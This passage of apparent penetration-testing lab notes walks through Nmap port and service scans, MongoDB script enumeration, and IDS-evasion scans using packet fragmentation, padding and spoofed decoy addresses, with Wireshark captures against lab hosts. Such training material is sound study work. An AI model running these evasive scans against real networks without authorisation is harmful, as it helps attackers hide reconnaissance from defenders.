  --noninteractive: Disable runtime interactions via keyboard
  --stylesheet <path/URL>: XSL stylesheet to transform XML output to HTML
  --webxml: Reference stylesheet from Nmap.Org for more portable XML
  --no-stylesheet: Prevent associating of XSL stylesheet w/XML output
MISC:
  -6: Enable IPv6 scanning
  -A: Enable OS detection, version detection, script scanning, and traceroute
  --datadir <dirname>: Specify custom Nmap data file location
  --send-eth/--send-ip: Send using raw ethernet frames or IP packets
  --privileged: Assume that the user is fully privileged
  --unprivileged: Assume the user lacks raw socket privileges
  -V: Print version number
  -h: Print this help summary page.
EXAMPLES:
  nmap -v -A scanme.nmap.org
  nmap -v -sn 192.168.0.0/16 10.0.0.0/8
  nmap -v -iR 10000 -Pn -p 80
SEE THE MAN PAGE (https://nmap.org/book/man.html) FOR MORE OPTIONS AND EXAMPLES
```

_Scan all ports on a target host using Nmap to identify open services and potentially vulnerable applications._

`nmap -sS -sV -O -p- -T4 192.224.77.3`:
```
Starting Nmap 7.70 ( https://nmap.org ) at 2023-11-28 18:12 UTC
Host is up (0.000043s latency).
Not shown: 65532 closed ports
PORT      STATE SERVICE   VERSION
6421/tcp  open  mongodb   MongoDB 2.6.10 ←
41288/tcp open  achat     AChat chat system
55413/tcp open  ftp       vsftpd 3.0.3
MAC Address: 02:42:C0:E0:4D:03 (Unknown)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/).
TCP/IP fingerprint:
OS:SCAN(V=7.70%E=4%D=11/28%OT=6421%CT=1%CU=31281%PV=N%DS=1%DC=D%G=Y%M=02
OS:42C%TM=65662D8C%P=x86_64-pc-linux-gnu)
OS:SEQ(SP=101%GCD=1%ISR=10A%TI=Z%CI=Z%II=I%TS=A)
OS:OPS(O1=M5B4ST11NW7%O2=M5B4ST11NW7%O3=M5B4ST11NW7%O4=M5B4ST11NW7%O5=
OS:M5B4ST11NW7%O6=FE88%W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)
OS:ECN(R=Y%DF=Y%T=40%W=FE88%O=M5B4NSN7W7%CC=Y%Q=)
OS:TCP(S=O%A=S+%F=AR%D=0%Q=)
OS:RD(R=Y%DF=Y%T=40%W=40%S=A%A=Z%F=R0%G=Z%M=Z%Q=)
OS:T7(R=Y%DF=Y%T=40%W=40%S=Z%A=Z%F=R0%Q=)
OS:U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPTL=40%RID=G%RIPCK=G%RUCK=G%RUD=G)
OS:IE(R=Y%DF=Y%T=40%CD=S)
Network Distance: 1 hop
Service Info: OS: Unix

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 24.06 seconds
```

Perform a detailed service scan on the identified open ports to gather more information about the running services, using the `-sC` option to execute Nmap's default scripts, which provide a wide range of useful detections and checks.

`nmap -sS -sV -sC -p- -T4 192.224.77.3`:
```
Starting Nmap 7.70 ( https://nmap.org ) at 2023-11-28 18:20 UTC
Stats: 0:00:12 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 66.67% done; ETC: 18:20 (0:00:06 remaining)
Nmap scan report for target-1 (192.224.77.3)
Host is up (0.0000090s latency).
Not shown: 65532 closed ports
PORT      STATE SERVICE   VERSION
6421/tcp  open  mongodb   MongoDB 2.6.10 2.6.10
| mongodb-databases:
|   ok = 1.0
|   totalSize = 83886080.0
|   databases
|     0
|       name = local
|       sizeOnDisk = 83886080.0
|       empty = false
|     1
|       name = admin
|       sizeOnDisk = 1.0
|       empty = true
| mongodb-info:
|   MongoDB Build info
|     javascriptEngine = V8
|     maxBsonObjectSize = 16777216
|     sysInfo = Linux lgw01-12 3.19.0-25-generic #26~14.04.1-Ubuntu SMP Fri Jul 24 21:16:20 UTC 2015 x86_64 BOOST_LIB_VERSION=1_58
|     ok = 1.0
|     version = 2.6.10
|     versionArray
|       2 = 10
|       3 = 0
|       0 = 2
|       1 = 6

[...]

|   cursors
|     clientCursors_size = 0
|     totalNoTimeout = 0
|     totalOpen = 0
|     timedOut = 0
|     note = deprecated, use server status metrics
|     pinned = 0
|   indexCounters
|     hits = 2
|     misses = 0
|     missRatio = 0.0
|     resets = 0
|     accesses = 2
41288/tcp open  achat     AChat chat system
55413/tcp open  ftp       vsftpd 3.0.3
MAC Address: 02:42:C0:E0:4D:03 (Unknown)
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.26 seconds
```

_Examine the available Nmap scripts on the system to identify scripts that could be useful for MongoDB exploitation._

`ls -al /usr/share/nmap/scripts`:
```
total 4960
drwxr-xr-x 1 root root  4096 Jun 26 14:49 .
drwxr-xr-x 1 root root  4096 Jun 26 13:45 ..
-rw-r--r-- 1 root root  3901 Jun 20 23:57 acarsd-info.nse
-rw-r--r-- 1 root root  8749 Jun 20 23:57 address-info.nse
-rw-r--r-- 1 root root  3345 Jun 20 23:57 afp-brute.nse

[...]

-rw-r--r-- 1 root root  2286 Jun 20 23:57 x11-access.nse
-rw-r--r-- 1 root root  2095 Jun 20 23:57 xdmcp-discover.nse
-rw-r--r-- 1 root root  4362 Jun 20 23:57 xmlrpc-methods.nse
-rw-r--r-- 1 root root  4316 Jun 20 23:57 xmpp-brute.nse
-rw-r--r-- 1 root root 17285 Jun 20 23:57 xmpp-info.nse
```

_Use `grep` to filter and identify specific MongoDB-related Nmap scripts that can provide additional information about the MongoDB service._

`ls -al /usr/share/nmap/scripts | grep -e "mongodb"`:
```
-rw-r--r-- 1 root root  2588 Jun 20 23:57 mongodb-brute.nse
-rw-r--r-- 1 root root  2593 Jun 20 23:57 mongodb-databases.nse ←
-rw-r--r-- 1 root root  3673 Jun 20 23:57 mongodb-info.nse ←
```

_Check the help information for the identified MongoDB Nmap scripts to understand their functionality._

`nmap --script-help=mongodb-*`:
```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-27 20:02 IST

mongodb-brute
Categories: intrusive brute
https://nmap.org/nsedoc/scripts/mongodb-brute.html
  Performs brute force password auditing against the MongoDB database.

mongodb-databases
Categories: default discovery safe
https://nmap.org/nsedoc/scripts/mongodb-databases.html
  Attempts to get a list of tables from a MongoDB database.

mongodb-info  ←
Categories: default discovery safe
https://nmap.org/nsedoc/scripts/mongodb-info.html
  Attempts to get build info and server status from a MongoDB database. ←
```

_Execute the `mongodb-info` Nmap script against the identified MongoDB service to gather information about the database server._

`nmap -sS -sV --script=mongodb-info -p6421 -T4 192.224.77.3`:
```
Starting Nmap 7.70 ( https://nmap.org ) at 2023-11-28 18:28 UTC

Nmap scan report for target-1 (192.224.77.3)
Host is up (0.0000090s latency).
Not shown: 65532 closed ports
PORT      STATE SERVICE   VERSION
6421/tcp  open  mongodb   MongoDB 2.6.10 2.6.10 ←
| mongodb-info: ←
|   MongoDB Build info
|     ok = 1.0
|     debug = false
|     OpenSSLVersion = OpenSSL 1.0.2g  1 Mar 2016
|     loaderFlags = -fPIC -pthread -Wl,-z,now -rdynamic
|     gitVersion = nogitversion
|     allocator = tcmalloc
|     versionArray
|       1 = 6
|       2 = 10
|       3 = 0
|       0 = 2

[...]

|   queryExecutor
|     scannedObjects = 0
|     scanned = 0
|   record
|     moves = 0
|   operation
|     fastmod = 0
|     scanAndOrder = 0
|     idhack = 0
|   version = 2.6.10
|_  process = mongod
MAC Address: 02:42:C0:E0:4D:03 (Unknown)
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.47 seconds
```

### Firewall Detection and IDS Evasion (with Nmap) - Lab

_Check the available options in Nmap by displaying the help page._

`nmap --help`:
```
Nmap 7.94SVN ( https://nmap.org )
Usage: nmap [Scan Type(s)] [Options] {target specification}
TARGET SPECIFICATION:
  Can pass hostnames, IP addresses, networks, etc.
  Ex: scanme.nmap.org, microsoft.com/24, 192.168.0.1; 10.0.0-255.1-254
  -iL <inputfilename>: Input from list of hosts/networks
  -iR <num hosts>: Choose random targets
  --exclude <host1[,host2][,host3],...>: Exclude hosts/networks
  --excludefile <exclude_file>: Exclude list from file
HOST DISCOVERY:
  -sL: List Scan - simply list targets to scan
  -sn: Ping Scan - disable port scan 
  -Pn: Treat all hosts as online -- skip host discovery 
  -PS/PA/PU/PY[portlist]: TCP SYN/ACK, UDP or SCTP discovery to given ports
  -PE/PP/PM: ICMP echo, timestamp, and netmask request discovery probes
  -PO[protocol list]: IP Protocol Ping
  -n/-R: Never do DNS resolution/Always resolve [default: sometimes] 
  --dns-servers <serv1[,serv2],...>: Specify custom DNS servers
  --system-dns: Use OS's DNS resolver
  --traceroute: Trace hop path to each host
SCAN TECHNIQUES:
  -sS/sT/sA/sW/sM: TCP SYN/Connect()/ACK/Window/Maimon scans ←
  -sU: UDP Scan
  -sN/sF/sX: TCP Null, FIN, and Xmas scans
  --scanflags <flags>: Customize TCP scan flags
  -sI <zombie host[:probeport]>: Idle scan
  -sY/sZ: SCTP INIT/COOKIE-ECHO scans
  -sO: IP protocol scan
  -b <FTP relay host>: FTP bounce scan
PORT SPECIFICATION AND SCAN ORDER:
  -p <port ranges>: Only scan specified ports
    Ex: -p22; -p1-65535; -p U:53,111,137,T:21-25,80,139,8080,S:9
  --exclude-ports <port ranges>: Exclude the specified ports from scanning
  -F: Fast mode - Scan fewer ports than the default scan
  -r: Scan ports sequentially - don't randomize
  --top-ports <number>: Scan <number> most common ports
  --port-ratio <ratio>: Scan ports more common than <ratio>
SERVICE/VERSION DETECTION:
  -sV: Probe open ports to determine service/version info
  --version-intensity <level>: Set from 0 (light) to 9 (try all probes)
  --version-light: Limit to most likely probes (intensity 2)
  --version-all: Try every single probe (intensity 9)
  --version-trace: Show detailed version scan activity (for debugging)
SCRIPT SCAN:
  -sC: equivalent to --script=default
  --script=<Lua scripts>: <Lua scripts> is a comma separated list of
           directories, script-files or script-categories
  --script-args=<n1=v1,[n2=v2,...]>: provide arguments to scripts
  --script-args-file=filename: provide NSE script args in a file
  --script-trace: Show all data sent and received
  --script-updatedb: Update the script database.
  --script-help=<Lua scripts>: Show help about scripts.
           <Lua scripts> is a comma-separated list of script-files or
           script-categories.
OS DETECTION:
  -O: Enable OS detection
  --osscan-limit: Limit OS detection to promising targets
  --osscan-guess: Guess OS more aggressively
TIMING AND PERFORMANCE:
  Options which take <time> are in seconds, or append 'ms' (milliseconds),
  's' (seconds), 'm' (minutes), or 'h' (hours) to the value (e.g. 30m).
  -T<0-5>: Set timing template (higher is faster)
  --min-hostgroup/max-hostgroup <size>: Parallel host scan group sizes
  --min-parallelism/max-parallelism <numprobes>: Probe parallelization
  --min-rtt-timeout/max-rtt-timeout/initial-rtt-timeout <time>: Specifies
      probe round trip time.
  --max-retries <tries>: Caps number of port scan probe retransmissions.
  --host-timeout <time>: Give up on target after this long
  --scan-delay/--max-scan-delay <time>: Adjust delay between probes
  --min-rate <number>: Send packets no slower than <number> per second
  --max-rate <number>: Send packets no faster than <number> per second
FIREWALL/IDS EVASION AND SPOOFING:
  -f; --mtu <val>: fragment packets (optionally w/given MTU) ←
  -D <decoy1,decoy2[,ME],...>: Cloak a scan with decoys ←
  -S <IP_Address>: Spoof source address
  -e <iface>: Use specified interface
  -g/--source-port <portnum>: Use given port number ←
  --proxies <url1,[url2],...>: Relay connections through HTTP/SOCKS4 proxies
  --data <hex string>: Append a custom payload to sent packets
  --data-string <string>: Append a custom ASCII string to sent packets
  --data-length <num>: Append random data to sent packets ←
  --ip-options <options>: Send packets with specified ip options
  --ttl <val>: Set IP time-to-live field
  --spoof-mac <mac address/prefix/vendor name>: Spoof your MAC address
  --badsum: Send packets with a bogus TCP/UDP/SCTP checksum
OUTPUT:
  -oN/-oX/-oS/-oG <file>: Output scan in normal, XML, s|<rIpt kIddi3,
     and Grepable format, respectively, to the given filename.
  -oA <basename>: Output in the three major formats at once
  -v: Increase verbosity level (use -vv or more for greater effect)
  -d: Increase debugging level (use -dd or more for greater effect)
  --reason: Display the reason a port is in a particular state
  --open: Only show open (or possibly open) ports
  --packet-trace: Show all packets sent and received
  --iflist: Print host interfaces and routes (for debugging)
  --append-output: Append to rather than clobber specified output files
  --resume <filename>: Resume an aborted scan
  --noninteractive: Disable runtime interactions via keyboard
  --stylesheet <path/URL>: XSL stylesheet to transform XML output to HTML
  --webxml: Reference stylesheet from Nmap.Org for more portable XML
  --no-stylesheet: Prevent associating of XSL stylesheet w/XML output
MISC:
  -6: Enable IPv6 scanning
  -A: Enable OS detection, version detection, script scanning, and traceroute
  --datadir <dirname>: Specify custom Nmap data file location
  --send-eth/--send-ip: Send using raw ethernet frames or IP packets
  --privileged: Assume that the user is fully privileged
  --unprivileged: Assume the user lacks raw socket privileges
  -V: Print version number
  -h: Print this help summary page.
EXAMPLES:
  nmap -v -A scanme.nmap.org
  nmap -v -sn 192.168.0.0/16 10.0.0.0/8
  nmap -v -iR 10000 -Pn -p 80
SEE THE MAN PAGE (https://nmap.org/book/man.html) FOR MORE OPTIONS AND EXAMPLES
```

_Identify the network interfaces and their configuration on the target machine to understand the network environment._

`ifconfig`:
```
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.1.0.4  netmask 255.255.0.0  broadcast 10.1.255.255
        ether 02:42:0a:01:00:04  txqueuelen 0  (Ethernet)
        RX packets 808  bytes 90442 (88.3 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 657  bytes 1944326 (1.8 MiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

eth1: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.155.196.2  netmask 255.255.255.0  broadcast 192.155.196.255 ←
        ether 02:42:c0:9b:c4:02  txqueuelen 0  (Ethernet)
        RX packets 18  bytes 1516 (1.4 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 0  bytes 0 (0.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 1896  bytes 2937260 (2.8 MiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 1896  bytes 2937260 (2.8 MiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

_Use Nmap to perform a ping scan (`-sn`) across the entire 192.155.196.0/24 subnet to identify active hosts._

`nmap -sn 192.155.196.0/24`:
```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-28 13:53 IST
Nmap scan report for 192.155.196.1
Host is up (0.000051s latency).
MAC Address: 02:42:B6:5C:52:10 (Unknown)
Nmap scan report for demo.ine.local (192.155.196.3) ←
Host is up (0.000025s latency). ←
MAC Address: 02:42:C0:9B:C4:03 (Unknown)
Nmap scan report for INE (192.155.196.2)
Host is up.
Nmap done: 256 IP addresses (3 hosts up) scanned in 1.97 seconds
```

_Perform a SYN scan (`-sS`) with service version detection (`-sV`) against all ports (`-p-`) on the identified host 192.155.196.3._

`nmap -Pn -sS -sV -T4 -p- 192.155.196.3`:
```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-28 13:56 IST
Nmap scan report for demo.ine.local (192.155.196.3)
Host is up (0.000023s latency).
Not shown: 65532 closed tcp ports (reset)
PORT      STATE SERVICE VERSION
6421/tcp  open  mongodb MongoDB 2.6.10 ←
41288/tcp open  achat   AChat chat system
55413/tcp open  ftp     vsftpd 3.0.3
MAC Address: 02:42:C0:9B:C4:03 (Unknown)
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.49 seconds
```

_Execute an ACK scan (`-sA`) on port 6421 to determine the firewall state of the MongoDB service._

`nmap -Pn -sA -p6421 192.155.196.3`:
```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-28 13:57 IST
Nmap scan report for demo.ine.local (192.155.196.3)
Host is up (0.000042s latency).

PORT     STATE      SERVICE
6421/tcp unfiltered nim-wan ←
MAC Address: 02:42:C0:9B:C4:03 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 0.10 seconds
```

_Perform a SYN scan (`-sS`) on port 6421 to confirm the state of the MongoDB service._

`nmap -Pn -sS -p6421 192.155.196.3`:
```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-28 13:59 IST
Nmap scan report for demo.ine.local (192.155.196.3)
Host is up (0.000050s latency).

PORT     STATE SERVICE
6421/tcp open  nim-wan
MAC Address: 02:42:C0:9B:C4:03 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 0.10 seconds
```

_Start Wireshark to monitor traffic on the `eth1` interface in the background._

`sudo wireshark -i eth1 &`:

| No. | Time        | Source               | Destination         | Protocol | Length | Info                                                          |
|-----|-------------|----------------------|---------------------|----------|--------|---------------------------------------------------------------|
| 1   | 0.000000000 | 02:42:c0:9b:c4:02    | Broadcast           | ARP      | 42     | Who has 192.155.196.3? Tell 192.155.196.2                      |
| 2   | 0.000033300 | 02:42:c0:9b:c4:03    | 02:42:c0:9b:c4:02   | ARP      | 42     | 192.155.196.3 is at 02:42:c0:9b:c4:03                         |
| 3   | 0.045156609 | 192.155.196.2        | 192.155.196.3       | TCP      | 58     | 48354 → 6421 [SYN] Seq=0 Win=1024 Len=0 MSS=1460 ←             |
| 4   | 0.045214590 | 192.155.196.3        | 192.155.196.2       | TCP      | 58     | 6421 → 48354 [SYN, ACK] Seq=0 Ack=1 Win=64240 Len=0 MSS=1460  |
| 5   | 0.045222870 | 192.155.196.2        | 192.155.196.3       | TCP      | 54     | 48354 → 6421 [RST] Seq=1 Win=0 Len=0                          |
| 6   | 5.332657337 | 02:42:c0:9b:c4:03    | 02:42:c0:9b:c4:02   | ARP      | 42     | Who has 192.155.196.2? Tell 192.155.196.3                      |
| 7   | 5.332670877 | 02:42:c0:9b:c4:02    | 02:42:c0:9b:c4:03   | ARP      | 42     | 192.155.196.2 is at 02:42:c0:9b:c4:02                         |

_Execute a SYN scan (`-sS`) with packet fragmentation (`-f`) on port 6421 to evade detection._

`nmap -Pn -sS -f -p6421 192.155.196.3`

_Observe the traffic generated during the fragmented SYN scan using Wireshark._

`sudo wireshark -i eth1 &`:

| No. | Time        | Source               | Destination         | Protocol | Length | Info                                                                 |
|-----|-------------|----------------------|---------------------|----------|--------|----------------------------------------------------------------------|
| 1   | 0.000000000 | 02:42:c0:9b:c4:02    | Broadcast           | ARP      | 42     | Who has 192.155.196.3? Tell 192.155.196.2                             |
| 2   | 0.000036200 | 02:42:c0:9b:c4:03    | 02:42:c0:9b:c4:02   | ARP      | 42     | 192.155.196.3 is at 02:42:c0:9b:c4:03                                |
| 3   | 0.044534318 | 192.155.196.2        | 192.155.196.3       | IPv4     | 42     | Fragmented IP protocol (proto=TCP 6, off=0, ID=3d8d) [Reassembled in #5] ← |
| 4   | 0.044370728 | 192.155.196.2        | 192.155.196.3       | IPv4     | 42     | Fragmented IP protocol (proto=TCP 6, off=8, ID=3d8d) [Reassembled in #5] ← |
| 5   | 0.044376138 | 192.155.196.2        | 192.155.196.3       | TCP      | 58     | 48986 → 6421 [SYN] Seq=0 Win=1024 Len=0 MSS=1460 ←                    |
| 6   | 0.044465460 | 192.155.196.3        | 192.155.196.2       | TCP      | 58     | 6421 → 48986 [SYN, ACK] Seq=0 Ack=1 Win=64240 Len=0 MSS=1460         |
| 7   | 0.044477700 | 192.155.196.2        | 192.155.196.3       | TCP      | 54     | 48986 → 6421 [RST] Seq=1 Win=0 Len=0                                 |
| 8   | 5.053683922 | 02:42:c0:9b:c4:03    | 02:42:c0:9b:c4:02   | ARP      | 42     | Who has 192.155.196.2? Tell 192.155.196.3                             |
| 9   | 5.053696342 | 02:42:c0:9b:c4:02    | 02:42:c0:9b:c4:03   | ARP      | 42     | 192.155.196.2 is at 02:42:c0:9b:c4:02                                |

_Execute a SYN scan (`-sS`) with packet fragmentation and increased data length (`--data-length 200`) on port 6421 to further evade detection._

`nmap -Pn -sS -f --data-length 200 -p6421 192.155.196.3`

_Use Wireshark to monitor the network traffic generated by this advanced scan._

`sudo wireshark -i eth1 &`:

| No. | Time        | Source               | Destination         | Protocol | Length | Info                                                                 |
|-----|-------------|----------------------|---------------------|----------|--------|----------------------------------------------------------------------|
| 1   | 0.000000000 | 02:42:c0:9b:c4:02    | Broadcast           | ARP      | 42     | Who has 192.155.196.3? Tell 192.155.196.2                             |
| 2   | 0.000036521 | 02:42:c0:9b:c4:03    | 02:42:c0:9b:c4:02   | ARP      | 42     | 192.155.196.3 is at 02:42:c0:9b:c4:03                                |
| 3   | 0.060067442 | 192.155.196.2        | 192.155.196.3       | IPv4     | 42     | Fragmented IP protocol (proto=TCP 6, off=0, ID=8bf9) [Reassembled in #12] ← |
| 4   | 0.060080142 | 192.155.196.2        | 192.155.196.3       | IPv4     | 42     | Fragmented IP protocol (proto=TCP 6, off=8, ID=8bf9) [Reassembled in #12] ← |
| 5   | 0.060083102 | 192.155.196.2        | 192.155.196.3       | IPv4     | 42     | Fragmented IP protocol (proto=TCP 6, off=16, ID=8bf9) [Reassembled in #12] ← |
| 6   | 0.060085812 | 192.155.196.2        | 192.155.196.3       | IPv4     | 42     | Fragmented IP protocol (proto=TCP 6, off=24, ID=8bf9) [Reassembled in #12] ← |
| 7   | 0.060087722 | 192.155.196.2        | 192.155.196.3       | IPv4     | 42     | Fragmented IP protocol (proto=TCP 6, off=32, ID=8bf9) [Reassembled in #12] ← |
| 8   | 0.060091392 | 192.155.196.2        | 192.155.196.3       | IPv4     | 42     | Fragmented IP protocol (proto=TCP 6, off=40, ID=8bf9) [Reassembled in #12] ← |
| 9   | 0.060094192 | 192.155.196.2        | 192.155.196.3       | IPv4     | 42     | Fragmented IP protocol (proto=TCP 6, off=48, ID=8bf9) [Reassembled in #12] ← |
| 10  | 0.060096872 | 192.155.196.2        | 192.155.196.3       | IPv4     | 42     | Fragmented IP protocol (proto=TCP 6, off=56, ID=8bf9) [Reassembled in #12] ← |
| 11  | 0.060099712 | 192.155.196.2        | 192.155.196.3       | IPv4     | 42     | Fragmented IP protocol (proto=TCP 6, off=64, ID=8bf9) [Reassembled in #12] ← |
| 12  | 0.060102423 | 192.155.196.2        | 192.155.196.3       | TCP      | 36     | 56778 → 6421 [SYN] Seq=0 Win=1024 Len=50 MSS=1460 ←                   |
| 13  | 0.060181684 | 192.155.196.3        | 192.155.196.2       | TCP      | 58     | 6421 → 56778 [SYN, ACK] Seq=0 Ack=1 Win=64240 Len=0 MSS=1460         |
| 14  | 0.060190264 | 192.155.196.2        | 192.155.196.3       | TCP      | 54     | 56778 → 6421 [RST] Seq=1 Win=0 Len=0                                 |
| 15  | 5.230677794 | 02:42:c0:9b:c4:03    | 02:42:c0:9b:c4:02   | ARP      | 42     | Who has 192.155.196.2? Tell 192.155.196.3                             |
| 16  | 5.230691805 | 02:42:c0:9b:c4:02    | 02:42:c0:9b:c4:03   | ARP      | 42     | 192.155.196.2 is at 02:42:c0:9b:c4:02                                |

_Use Nmap's decoy option (`-D`) to disguise the scan's true origin by launching it from multiple spoofed IP addresses._

`nmap -Pn -sS -D 192.155.196.1,192.155.196.4 -p6421 192.155.196.3`

_Monitor the traffic generated by the decoy scan using Wireshark._

`sudo wireshark -i eth1 &`:

| No. | Time        | Source               | Destination         | Protocol | Length | Info                                                          |
|-----|-------------|----------------------|---------------------|----------|--------|---------------------------------------------------------------|
| 1   | 0.000000000 | 02:42:c0:9b:c4:02    | Broadcast           | ARP      | 42     | Who has 192.155.196.3? Tell 192.155.196.2                      |
| 2   | 0.000030762 | 02:42:c0:9b:c4:03    | 02:42:c0:9b:c4:02   | ARP      | 42     | 192.155.196.3 is at 02:42:c0:9b:c4:03                         |
| 3   | 0.057113652 | 192.155.196.1        | 192.155.196.3       | TCP      | 58     | 62045 → 6421 [SYN] Seq=0 Win=1024 Len=0 MSS=1460 ←              |
| 4   | 0.057204554 | 192.155.196.2        | 192.155.196.3       | TCP      | 58     | 62045 → 6421 [SYN] Seq=0 Win=1024 Len=0 MSS=1460              |
| 5   | 0.057229163 | 192.155.196.3        | 192.155.196.2       | TCP      | 58     | 6421 → 62045 [SYN, ACK] Seq=0 Ack=1 Win=64240 Len=0 MSS=1460  |
| 6   | 0.057234584 | 192.155.196.2        | 192.155.196.3       | TCP      | 54     | 62045 → 6421 [RST] Seq=1 Win=0 Len=0                          |
| 7   | 0.057248755 | 192.155.196.4        | 192.155.196.3       | TCP      | 58     | 62045 → 6421 [SYN] Seq=0 Win=1024 Len=0 MSS=1460 ←              |
| 8   | 0.057270304 | 02:42:c0:9b:c4:03    | Broadcast           | ARP      | 42     | Who has 192.155.196.4? Tell 192.155.196.3                      |
| 9   | 1.067737153 | 02:42:c0:9b:c4:03    | Broadcast           | ARP      | 42     | Who has 192.155.196.4? Tell 192.155.196.3                      |
| 10  | 2.091602557 | 02:42:c0:9b:c4:03    | Broadcast           | ARP      | 42     | Who has 192.155.196.4? Tell 192.155.196.3                      |
| 11  | 3.115646254 | 02:42:c0:9b:c4:03    | Broadcast           | ARP      | 42     | Who has 192.155.196.4? Tell 192.155.196.3                      |
| 12  | 4.139627199 | 02:42:c0:9b:c4:03    | Broadcast           | ARP      | 42     | Who has 192.155.196.4? Tell 192.155.196.3                      |
| 13  | 4.843593952 | fe80::c490:bcff:fef...| ff02::2             | ICMPv6   | 70     | Router Solicitation from c6:90:bc:fc:10:54                    |
| 14  | 5.163621425 | 02:42:c0:9b:c4:03    | Broadcast           | ARP      | 42     | Who has 192.155.196.4? Tell 192.155.196.3                      |

### Optimizing Nmap Scans: Scan Timing and Performance - Lab

_Check the available options in Nmap by displaying the help page._

`nmap --help`:
```
Nmap 7.94SVN ( https://nmap.org )
Usage: nmap [Scan Type(s)] [Options] {target specification}
TARGET SPECIFICATION:
  Can pass hostnames, IP addresses, networks, etc.
  Ex: scanme.nmap.org, microsoft.com/24, 192.168.0.1; 10.0.0-255.1-254
  -iL <inputfilename>: Input from list of hosts/networks
  -iR <num hosts>: Choose random targets
  --exclude <host1[,host2][,host3],...>: Exclude hosts/networks
  --excludefile <exclude_file>: Exclude list from file
HOST DISCOVERY:
  -sL: List Scan - simply list targets to scan
  -sn: Ping Scan - disable port scan 
  -Pn: Treat all hosts as online -- skip host discovery 
  -PS/PA/PU/PY[portlist]: TCP SYN/ACK, UDP or SCTP discovery to given ports
  -PE/PP/PM: ICMP echo, timestamp, and netmask request discovery probes
  -PO[protocol list]: IP Protocol Ping
  -n/-R: Never do DNS resolution/Always resolve [default: sometimes] 
  --dns-servers <serv1[,serv2],...>: Specify custom DNS servers
  --system-dns: Use OS's DNS resolver
  --traceroute: Trace hop path to each host
SCAN TECHNIQUES:
  -sS/sT/sA/sW/sM: TCP SYN/Connect()/ACK/Window/Maimon scans
  -sU: UDP Scan
  -sN/sF/sX: TCP Null, FIN, and Xmas scans
  --scanflags <flags>: Customize TCP scan flags
  -sI <zombie host[:probeport]>: Idle scan
  -sY/sZ: SCTP INIT/COOKIE-ECHO scans
  -sO: IP protocol scan
  -b <FTP relay host>: FTP bounce scan
PORT SPECIFICATION AND SCAN ORDER:
  -p <port ranges>: Only scan specified ports
    Ex: -p22; -p1-65535; -p U:53,111,137,T:21-25,80,139,8080,S:9
  --exclude-ports <port ranges>: Exclude the specified ports from scanning
  -F: Fast mode - Scan fewer ports than the default scan
  -r: Scan ports sequentially - don't randomize
  --top-ports <number>: Scan <number> most common ports
  --port-ratio <ratio>: Scan ports more common than <ratio>
SERVICE/VERSION DETECTION:
  -sV: Probe open ports to determine service/version info
  --version-intensity <level>: Set from 0 (light) to 9 (try all probes)
  --version-light: Limit to most likely probes (intensity 2)
  --version-all: Try every single probe (intensity 9)
  --version-trace: Show detailed version scan activity (for debugging)
SCRIPT SCAN:
  -sC: equivalent to --script=default
  --script=<Lua scripts>: <Lua scripts> is a comma separated list of
           directories, script-files or script-categories
  --script-args=<n1=v1,[n2=v2,...]>: provide arguments to scripts
  --script-args-file=filename: provide NSE script args in a file
  --script-trace: Show all data sent and received
  --script-updatedb: Update the script database.
  --script-help=<Lua scripts>: Show help about scripts.
           <Lua scripts> is a comma-separated list of script-files or
           script-categories.
OS DETECTION:
  -O: Enable OS detection
  --osscan-limit: Limit OS detection to promising targets
  --osscan-guess: Guess OS more aggressively
TIMING AND PERFORMANCE:
  Options which take <time> are in seconds, or append 'ms' (milliseconds),
  's' (seconds), 'm' (minutes), or 'h' (hours) to the value (e.g. 30m).
  -T<0-5>: Set timing template (higher is faster) ←
  --min-hostgroup/max-hostgroup <size>: Parallel host scan group sizes
  --min-parallelism/max-parallelism <numprobes>: Probe parallelization
  --min-rtt-timeout/max-rtt-timeout/initial-rtt-timeout <time>: Specifies
      probe round trip time.
  --max-retries <tries>: Caps number of port scan probe retransmissions.
  --host-timeout <time>: Give up on target after this long ←
  --scan-delay/--max-scan-delay <time>: Adjust delay between probes ←
  --min-rate <number>: Send packets no slower than <number> per second
  --max-rate <number>: Send packets no faster than <number> per second
FIREWALL/IDS EVASION AND SPOOFING:
  -f; --mtu <val>: fragment packets (optionally w/given MTU)
  -D <decoy1,decoy2[,ME],...>: Cloak a scan with decoys
  -S <IP_Address>: Spoof source address
  -e <iface>: Use specified interface
  -g/--source-port <portnum>: Use given port number
  --proxies <url1,[url2],...>: Relay connections through HTTP/SOCKS4 proxies
  --data <hex string>: Append a custom payload to sent packets
  --data-string <string>: Append a custom ASCII string to sent packets
  --data-length <num>: Append random data to sent packets
  --ip-options <options>: Send packets with specified ip options
  --ttl <val>: Set IP time-to-live field
